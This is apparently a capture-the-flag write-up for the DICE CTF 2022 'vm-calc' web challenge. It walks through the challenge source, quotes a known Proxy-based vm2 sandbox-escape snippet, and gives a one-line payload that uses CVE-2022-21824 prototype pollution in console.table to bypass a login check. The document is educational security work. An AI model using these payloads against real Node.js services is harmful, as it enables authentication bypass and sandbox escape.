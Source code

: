 ```yaml
---
title: DICE CTF 2022 – vm-calc
date: '2022-02-09'
draft: false
authors: ['lemon']
tags: ['DICE CTF 2022', 'Web', 'Prototype Pollution', 'CVE-2022-21824', 'vm2', 'Proxy']
summary: 'Pollute prototype with a recent vulerability in console.table, and throw a proxy object within an exception.'
---
```


## vm-calc (481)

> by Strellic
>
> A simple and very secure online calculator!
>
> [instancer.mc.ax/vm-calc](https://instancer.mc.ax/vm-calc), [dist.tar](https://static.dicega.ng/uploads/6dcf39e45c26032a15d83fb62515e9df26059e4345b978dad07a17b2bf2c5826/dist.tar)

Hello, I’m Lemon. I managed to solve [`blazing-fast`](blazingfast.md) and [`knock-knock`](knock.md), and after the contest with some hints I solved `vm-calc`. It was a very (hard) problem.
Anyways, let me show you guys how I managed to solve it.

### Source code review

At first I though it’s a simple VM escape:

```js
const express = require('express');
const fsp = require('fs/promises');
const crypto = require('crypto');

const { NodeVM } = require('vm2');
const vm = new NodeVM({
    eval: false,
    wasm: false,
    wrapper: 'none',
    strict: true
});

const PORT = process.env.PORT || 80;

const users = [
    { user: "strellic", pass: "4136805643780af20755baddcc947d20f7e38e52f421c3c89a5a8b9d8a8d1da7" },
    { user: "ginkoid", pass: "cdf72d24394745eab295c6e047ee41aaec62f56bd41e2cea4ef7d244d96b51dd" }
];

const sha256 = (data) => crypto.createHash('sha256').update(data).digest('hex');

const app = express();

app.set("view engine", "hbs");

app.use(express.urlencoded({ extended: false }));

app.get("/", (req, res) => res.render("index"));
app.post("/", (req, res) => {
    const { calc } = req.body;

    if(!calc) {
        return res.render("index");
    }

    let result;
    try {
        result = vm.run(`return ${calc}`);
    }
    catch(err) {
        console.log(err);
        return res.render("index", { result: "There was an error running your calculation!"});
    }

    if(typeof result !== "number") {
        return res.render("index", { result: "Nice try..."});
    }

    res.render("index", { result });
});

app.get("/admin", (req, res) => res.render("admin"));

app.post("/admin", async (req, res) => {
    let { user, pass } = req.body;
    if(!user || !pass || typeof user !== "string" || typeof pass !== "string") {
        return res.render("admin", { error: "Missing username or password!" });
    }

    let hash = sha256(pass);
    if(users.filter(u => u.user === user && u.pass === hash)[0] !== undefined) {
        res.render("admin", { flag: await fsp.readFile("flag.txt") });
    }
    else {
        res.render("admin", { error: "Incorrect username or password!" });
    }
});

app.listen(PORT, () => console.log(`vm-calc listening on port ${PORT}`));
```

And honestly all I know about VM escape is in this GitHub Gist: 

<script src="https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af.js"></script>

And I found out some interesting ways in it:

```javascript
const code5 = `throw new Proxy({}, {
  get: function(me, key) {
	 const cc = arguments.callee.caller;
	 if (cc != null) {
		(cc.constructor.constructor('console.log(sauce)'))();
	 }
	 return me[key];
  }
})`;  

try {
  vm.runInContext(code5, vm.createContext(Object.create(null)));
}
catch(e) {
  console.log(e);
}
```

Throw a Proxy out as an exception, and then when someone executes `toString()` on this exception, it will be triggered, and you can `arguments.callee.caller`.

but it’s a `vm2`  :(

### 1-day CVE Exploitation

After some time I figured out that this question is not asking us to find `vm2` 0-day, but to use a Node.js 1-day: use prototype pollution to bypass the check. So, let’s explain how.

Here’s the vulnerable part of the code:

```javascript
if(users.filter(u => u.user === user && u.pass === hash)[0] !== undefined) {
    res.render("admin", { flag: await fsp.readFile("flag.txt") });
}
```

For me, at least it looks a bit weird, since it just filters the users array and check if an entry exists, like why not just use `Array.prototype.find` to directly check the existence of an element.
Also, I was sure that `vm2` didn’t have any VM sandbox escape vulnerability, so I was sure that the weakness is here.
So, I had to check the `Dockerfile` to get the Node.js version: 

```dockerfile
FROM node:16.13.1-bullseye-slim
```

And the only to go was my homie Google 😊, and thank god, I got this:

> [**Prototype pollution via `console.table` properties (Low)(CVE-2022-21824)**](https://nodejs.org/en/blog/vulnerability/jan-2022-security-releases/#prototype-pollution-via-console-table-properties-low-cve-2022-21824)
> 
> Due to the formatting logic of the `console.table()` function it was not safe to allow user controlled input to be passed to the `properties` parameter while simultaneously passing a plain object with at least one property as the first parameter, which could be `__proto__`. The prototype pollution has very limited control, in that it only allows an empty string to be assigned numerical keys of the object `prototype`.  
> 
> Versions of Node.js with the fix for this use a null protoype for the object these properties are being assigned to.  
>
> More details will be available at [CVE-2022-21824](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21824) after publication.
> 
> Thanks to Patrik Oldsberg (rugvip) for reporting this vulnerability.

We can pollute the first property of the array, the `[][0]` will be something that will make the `if` (check) `true` due to the prototype pollution.

```js
console.table([{ x : 1 }], [ "__proto__" ]);
```

The first parameter of this API is `data`, and the second parameter is the field to display, like this: 

![A scrennshot of the table generated by console.table() command.](/static/images/dice-ctf-2022/vm-calc/p2.png)

Here’s the fixed commit: 
https://github.com/nodejs/node/commit/3454e797137b1706b11ff2f6f7fb60263b39396b

Sending the payload `console.table([{x:1}], ["__proto__"]);` would prototype pollute the `0` property with an empty string, which allowed you to bypass the login check. :)

The flag is: `dice{y0u_4re_a_tru3_vm2_j4ilbreak3r!!!}`

That’s all, folks.
